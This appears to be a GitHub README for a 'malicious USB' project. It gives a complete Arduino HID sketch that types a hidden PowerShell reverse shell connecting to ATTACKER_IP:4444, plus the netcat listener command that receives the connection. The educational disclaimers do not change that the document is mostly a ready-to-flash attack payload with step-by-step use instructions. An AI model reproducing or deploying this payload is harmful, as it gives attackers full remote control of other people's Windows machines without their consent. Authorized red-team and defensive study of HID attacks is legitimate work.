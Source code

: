 # 🛠️ Malicious USB Reverse Shell (Windows → Linux)

This project demonstrates a malicious USB device capable of establishing a **reverse shell** on a Windows machine by emulating keyboard input (HID attack). It uses **PowerShell** and **Netcat** for remote command execution and control from a Linux listener.

> ⚠️ **WARNING**: This project is intended **strictly for educational and authorized penetration testing purposes**. Unauthorized use on systems you do not own is **illegal and unethical**.

---

## 📚 Table of Contents

- [Features](#-features)
- [Linux Listener Setup](#️-linux-listener-setup)
- [Arduino HID Payload](#️-arduino-hid-payload-eg-arduino-leonardo-digispark-malduino)
- [Result](#-result)
- [Disclaimer](#-disclaimer)
- [Related Topics](#-related-topics)
- [Ethical Use Only](#-ethical-use-only)

---

## 📌 Features

- USB device emulates a keyboard on plug-in.
- Automatically opens PowerShell.
- Executes a reverse shell to a specified Linux attacker IP.
- Linux listener gains full shell access to the compromised Windows system.
- Tested across multiple Windows environments for reliability.

---

## 🖥️ Linux Listener Setup

On your attack machine (Kali, Parrot, etc.), run:

```bash
nc -lvnp 4444
```
## ⚙️ Arduino HID Payload (e.g., Arduino Leonardo, Digispark, MalDuino)

- Flash the following sketch to your HID-capable device:

```cpp
#include "Keyboard.h"

void setup() {
  delay(3000);  // Wait for OS to detect the device

  // Open Run dialog
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();
  delay(500);

  // Open PowerShell
  Keyboard.print("powershell");
  Keyboard.press(KEY_RETURN);
  Keyboard.releaseAll();
  delay(1000);

  // PowerShell reverse shell payload
  Keyboard.print("powershell -nop -w hidden -c \"$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (Invoke-Expression -Command $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()\"");
  Keyboard.press(KEY_RETURN);
  Keyboard.releaseAll();
}

void loop() {
  // Nothing
}
```
✅ Replace ATTACKER_IP with your Linux attack box IP address.

## 🧪 Result
- When the USB is plugged into a Windows machine:

- The system recognizes it as a keyboard.

- It opens PowerShell silently.

- It connects to the attacker's listener.

- A reverse shell is established.

## 🧼 Disclaimer

This project is for educational and research purposes only.


## ❌ Never deploy this payload on unauthorized systems.

✅ Always have explicit consent when testing on real environments.

## 📚 Related Topics

- HID Attacks

- Rubber Ducky / MalDuino / Digispark

- Windows PowerShell Reverse Shells

- Netcat Listener

- Red Team Tactics

## 🔒 Ethical Use Only

Use responsibly. Learn legally.

